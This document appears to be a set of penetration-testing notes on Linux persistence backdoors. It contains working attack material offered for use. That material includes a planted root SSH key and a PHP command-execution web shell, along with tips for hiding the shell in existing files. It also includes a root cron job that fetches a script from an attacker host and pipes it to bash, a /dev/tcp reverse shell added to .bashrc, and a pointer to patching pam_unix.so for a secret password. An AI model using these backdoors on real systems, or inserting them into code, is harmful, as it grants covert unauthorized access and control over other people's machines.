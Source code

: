 # Linux Backdoors


## Introduction
- Backdoor - used to ensure consistent access to the target machine
    - Access whether it's rebooted, shutdown, etc.

## SSH Backdoors
- Consists of leaving our ssh keys in some user's home directory (preferrably the root user's home directory)
- Generate a set of ssh keys with ssh-keygen `ssh-keygen`
    - This creates one private key and one public key
- Now rename the public key to `authorized_keys`, change it's permissions with `chmod 600 id_rsa`, and go to `/root/.ssh` and leave the public key we generated there
    - If `.ssh` directory doesn't exist, create it with `mkdir .ssh`
- Login to the machine with `ssh -i id_rsa root@ip`
- Note: this backdoor isn't hidden at all, and anyone with the right permissions will be able to remove the public key

## PHP Backdoors
- Web root is usually located at `/var/www/html`
    - Whatever you leave here will be available for everyone to use in their browser
- You can leave a PHP backdoor in this directory
```
<?php
    if (isset($_REQUEST['cmd'])) {
        echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
    }
?>
```
- This code uses `$_REQUEST`, so you can pass the cmd parameter through either GET or POST requests
- If you left the file in /var/www/html/shell.php | You should be able to access it directly using : http://ip/shell.php
- If you left the shell somewhere else, look in what directory it is and then try accessing it by doing something like that : http://ip/somedirectory/shell.php
- Make backdoor more hidden
    1. Try to add this piece of code in already existing php files in /var/www/html. Adding it more towards the middle of files will definitely make our malicious actions a little more secret.
    2. Change the "cmd" parameter to something else... anything actually... just change it to something that isn't that common. "Cmd" is really common and is already really well known in the hacking community.

## CronJob Backdoors
- See current cronjobs with `cat /etc/crontab`
- Set up a cron job on the target machine `* *     * * *   root    curl http://<attacker ip>:8080/shell | bash`
    - This will look continuously for the file named `shell` on your machine and run it with bash
- Create a file named `shell` on your machine that gives you a reverse shell
```
#!/bin/bash

bash -i >& /dev/tcp/<ip>/<port> 0>&1
```
- Now host it on your web server with `python3 -m http.server 8080`
- Whenever you want a reverse shell into the target machine, just listen with `nc -nvlp <port>`
- This backdoor isn't hidden because anyone can see it by looking inside /etc/crontab

## .bashrc Backdoors
- If a user uses bash as their login shell, the `.bashrc` file is executed when bash is run
- If a user uses bash on their system often, simply add this into their `.bashrc`: `bash -i >& /dev/tcp/<ip>/<port> 0>&1`
- Disadvantage is that you will have to always have your nc listener on because you don't know when the user will launch bash
- Pretty secretive because nobody things about checking their `.bashrc` file

## pam_unix.so Backdoors
- `pam_unix.so` is a file that is responsible for authentication
    - It uses `unix_verify_password` function to compare the user's hash from `/etc/shadow` to the one being supplied
- We simply need to change the code so that we have a special password that will log us into the system
- ![Pam 1](Images/pam_1.png)
- ![Pam 2](Images/pam_2.png)
- [Resource](http://0x90909090.blogspot.com/2016/06/creating-backdoor-in-pam-in-5-line-of.html)
- [Resource](https://github.com/zephrax/linux-pam-backdoor)
